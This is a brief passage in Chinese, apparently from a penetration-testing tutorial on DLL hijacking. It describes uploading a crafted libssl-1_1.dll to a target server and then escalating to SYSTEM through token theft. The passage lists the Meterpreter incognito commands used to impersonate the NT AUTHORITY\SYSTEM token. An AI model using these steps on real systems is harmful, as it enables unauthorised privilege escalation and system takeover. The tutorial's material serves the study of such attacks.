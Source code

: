 将`libssl-1_1.dll`上传到目标服务器。

![上传服务器](./dll劫持/上传服务器.png)

先查看获取到的权限。

![获取权限](./dll劫持/获取权限.png)

配合令牌窃取，成功提权，获取到system权限。

```shell
use incognito
list_tokens -u
impersonate_token "NT AUTHORITY\SYSTEM"
```
